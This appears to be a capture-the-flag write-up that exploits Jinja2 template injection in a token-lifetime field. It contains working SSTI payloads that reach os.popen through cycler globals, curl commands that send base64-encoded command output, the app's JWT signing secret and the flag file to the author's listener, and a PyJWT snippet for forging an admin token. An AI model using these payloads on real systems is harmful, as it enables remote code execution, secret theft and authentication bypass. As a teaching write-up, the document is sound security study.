

# Secure Rendered JWT – Writeup



- Web page with a login form, username and “how many minutes the token is valid.”
- Tokens were symmetric HS256.
- Timezone Europe, Oslo, irrelevant to the exploit, useful while checking `exp`.

---

I started by treating the minutes box like a normal integer input, and watched how `exp` moved.

- `10` produced a token valid for 10 minutes.
- `1` produced a token valid for 1 minute.
- Any number over 10 was clamped to 10.
- I tried words, since the UI hinted Norwegian numbers:
  - `en` without quotes consistently ended up as 10, likely a default branch.
  - `'en'` with quotes was understood as 1.
  - `'to'` as 2, `'tre'` as 3.
  - Numbered text like `'femtifem'` fell back to 10.

This told me something was rendering, not just parsing integers. The quoted words working was the first sign that a template was involved.

---

I was not yet sure where this was going, I paid 75 points for the hint.  
The hint said: **“the new cool way to convert stuff into integers was using Jinja2.”**

I read a couple of Jinja2 SSTI articles. The standard probe is `{{7*7}}`.  
I tried a few basics in the minutes field:

`{{7*7}}`
`{{2*3}}`
`{{"a"*5}}`

Every one of these crashed the page with a 500 error. That confirmed templating, but also told me that whatever wrapped my input expected it to evaluate into something that could be converted to a number, or a known word.

---

Since quoted Norwegian numbers were mapped to minutes, I tried a Jinja inline if that always returned one of those words, never raw numbers. This keeps the app happy and gives me a yes or no channel:

```
'en' if <condition> else 'to'
```
If true, the token had 1 minute on the expiration, if false, 2 minutes. That meant I could test arbitrary conditions without crashing.
The first big reveal:

```
'en' if cycler.__init__.__globals__.__builtins__.__import__ else 'to'
```
Why this, and what it does:
cycler is a benign Jinja helper that is always in scope.

From cycler.__init__ you can access its __globals__.

Inside globals, you can grab __builtins__.

Then you can reach __import__.

It returned 1, so the template could reach Python builtins.

Next, import os (the os module gives direct access to the filesystem, environment variables, and command execution):

```
'en' if cycler.__init__.__globals__.__builtins__.__import__('os') else 'to'
```
This also returned 1, so I had the os module.
I tried environment, files, and commands, always wrapped in the oracle:

Check env is accessible
```
'en' if cycler.__init__.__globals__.__builtins__.__import__('os').environ else 'to'
```
Check a known file name in the working dir
```
'en' if 'requirements.txt' in cycler.__init__.__globals__.__builtins__.__import__('os').listdir('.') else 'to'
```
Check for command execution
```
'en' if cycler.__init__.__globals__.__builtins__.__import__('os').popen else 'to'
```
These all returned 1, so I had everything I needed.
RCE and Exfil.

Dumping big strings into the minutes field would crash, so the plan was to run a command server side and send the result over HTTP to my own listener.
On my Mac, I used netcat.

To avoid spaces, quotes, and newlines breaking the request path, I base64-encoded on the server before curling home. Example pattern:
```
bash -c 'echo "hello" | base64 | xargs -I{} curl http://ip:port/{}'
```

Inside the minute field, that becomes:
```
'en' if cycler.__init__.__globals__.__builtins__.__import__('os').popen("bash -c 'echo hello | base64 | xargs -I{} curl ip:port'") else 'to'
```

The listener saw GET /aGVsbG8K HTTP/1.1, I decoded locally with base64 -d.

Here I fell into a rabbit hole.

The challenge name and the UI suggested JWTs mattered. I checked how tokens were created and verified by grepping the source through my oracle, for example:
```
'en' if cycler.__init__.__globals__.__builtins__.__import__('os').popen("grep -R 'jwt.decode' . | base64 | xargs -I{} curl http://ip:port/{}") else 'to'
```
From there and from exfiltrated code chunks, I learned:
```
JWT_SECRET = os.urandom(32).hex()
jwt.encode(payload, JWT_SECRET, algorithm="HS256")
```
So the signing key was a fresh 64 hex string on each server start, not a static value in the repo, which explained why forged tokens could suddenly stop working after a restart.
I proved I could pull the live secret over the same exfil route:
```
'en' if cycler.__init__.__globals__.__builtins__.__import__('os').popen("bash -c 'python3 -c \"import app; print(app.JWT_SECRET)\" | base64 | xargs -I{} curl http://ip:port/{}'") else 'to'
```
The listener received a base64 blob, which decoded to the current 64 hex key.
I minted an admin token with PyJWT:
```
import jwt, time
secret = "6318ccead28b8819fe24e43b5d971613dee6b7ae83ee414df99167f19"  # example pulled live
payload = {"username": "admin", "admin": True, "exp": int(time.time()) + 3600}
token = jwt.encode(payload, secret, algorithm="HS256")
print(token)
```

Replacing the cookie crashed with 500. When it crashed, the box had restarted and the secret had rotated, so the token was now invalid. Essentially I had gotten something that I could've just done with jwt.io, so I figured this wasn't the intended way. 

I tried listing the files that exist to see if there was a different path.

I used:
```
'en' if cycler.__init__.__globals__.__builtins__.__import__('os').popen("ls -R . | base64 | xargs -I{} curl http://ip:port/{}") else 'to'
```
Decoding the output gave a short tree, with files like:
```
Dockerfile
app.py
solve.py
flag.txt
```
...
Well there it was. 

Same recipe:
 ```
'en' if cycler.__init__.__globals__.__builtins__.__import__('os').popen("base64 flag.txt | xargs -I{} curl http://ip:port/{}") else 'to'
 ```
On my listener I received and decoded it.

The result was the flag:
```
CTFkom{2856b8be333804a318817f1ee4e6dec8}
```